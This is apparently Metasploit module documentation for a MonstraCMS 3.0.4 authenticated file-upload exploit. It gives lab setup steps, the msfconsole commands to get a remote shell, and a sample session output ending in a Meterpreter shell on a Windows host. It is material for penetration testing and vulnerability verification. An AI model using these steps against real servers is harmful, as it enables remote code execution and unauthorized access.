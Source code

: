 ## Description
MonstraCMS 3.0.4 allows users to upload Arbitrary files which leads to a remote command execution on the remote server, an attacker may choose to upload a file containing PHP code and run this code by accessing the resulting PHP file.
This module was tested against MonstraCMS 3.0.4.
Additional information and vulnerabilities can be viewed on Exploit-DB [43348](https://www.exploit-db.com/exploits/43348/).

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip)

### Vulnerable Application Installation Setup.
 1. Download Application : `https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 2. Extract : `23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 3. Move In WebDirectory : `C:\xampp\htdocs\`
 4. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/monstra_fileupload_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi monstra`
 7. Do: `set username USERNAME`
 8. Do: `set password PASSWORD`
 9. Do: `check`
```
[*] Monstra CMS: 3.0.4
[+] 192.168.0.101:80 The target is vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.


## Scenarios
### Monstra CMS on Windows Target
```                                                                                                                                    
msf exploit(multi/http/monstra_fileupload_exec) > check 

[*] Monstra CMS: 3.0.4
[+] 192.168.0.101:80 The target is vulnerable.
msf exploit(multi/http/monstra_fileupload_exec) > exploit 

[*] Started bind handler
[*] Trying to Login ......
[+] Authentication successful : [ editor : editor ]
[+] CSRF-Token for File Upload : 2a67a7995c15c69a158d897f517e3aff2e3a4ae9
[*] Trying to upload file with malicious Content....
[*] Executing Payload 
[*] Sending stage (37775 bytes) to 192.168.0.101
[*] Meterpreter session 1 opened (10.0.2.15:45689 -> 192.168.0.101:4444) at 2018-06-30 12:39:53 +0530
[+] Deleted TSPfeLYdMP.PHP

meterpreter > sysinfo 
Computer    : 114619-T470P
OS          : Windows NT 114619-T470P 10.0 build 16299 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > 
```
